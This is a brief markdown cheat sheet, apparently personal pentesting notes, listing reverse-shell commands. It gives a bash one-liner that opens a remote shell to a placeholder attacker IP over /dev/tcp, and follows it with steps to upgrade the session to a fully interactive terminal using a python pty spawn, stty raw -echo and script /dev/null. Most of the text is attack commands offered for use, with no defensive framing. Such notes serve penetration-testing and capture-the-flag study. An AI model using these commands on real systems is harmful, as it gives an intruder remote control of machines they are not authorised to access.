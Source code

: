 # Reverse Shells - Examples

## Bash

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"


## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background
	CTRL+Z

	stty raw -echo
	fg
	export TERM=xterm


## Cookbook

Ugrading the the reverse shell we got

	script /dev/null -c bash